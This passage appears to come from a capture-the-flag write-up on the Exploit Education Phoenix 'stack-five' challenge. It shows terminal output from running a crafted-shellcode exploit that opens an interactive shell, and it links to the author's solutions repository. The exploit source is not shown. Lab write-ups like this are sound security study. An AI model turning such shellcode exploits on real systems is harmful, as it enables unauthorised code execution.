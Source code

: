 Executing, we get
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five-crafted-shellcode$ ./exploit.py
rm -rf shellcode.bin
gcc -m64 -c -o shellcode.o shellcode.S
[+] Starting local process '/opt/phoenix/amd64/stack-five': pid 34879
[*] Switching to interactive mode
Welcome to phoenix/stack-five, brought to you by https://exploit.education
$ ls
final-one    format-one    heap-one    net-one       stack-four    stack-two
final-two    format-three  heap-three  net-two       stack-one    stack-zero
final-zero   format-two    heap-two    net-zero    stack-six
format-four  format-zero   heap-zero   stack-five  stack-three
$ whoami
nathan
```

The code can be found in the [Github repository](https://github.com/secnate/Exploit-Education-CTFs) for Phoenix challenge solutions.
{: style="text-align: justify;"}